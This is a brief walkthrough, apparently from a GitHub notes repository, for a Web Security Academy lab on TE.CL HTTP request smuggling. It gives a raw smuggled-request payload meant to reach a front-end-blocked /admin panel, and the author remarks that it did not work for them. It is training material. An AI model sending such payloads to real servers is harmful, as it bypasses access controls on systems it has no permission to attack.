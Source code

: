 Title: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Level: PRACTITIONER
Desc:  This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos. 

# Walkthrough: 
<img width="718" height="164" alt="image" src="https://github.com/user-attachments/assets/b44732cc-347f-4eab-a1ad-ffec1dbaa623" />


Below should work, but in my case it was not working at all...
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
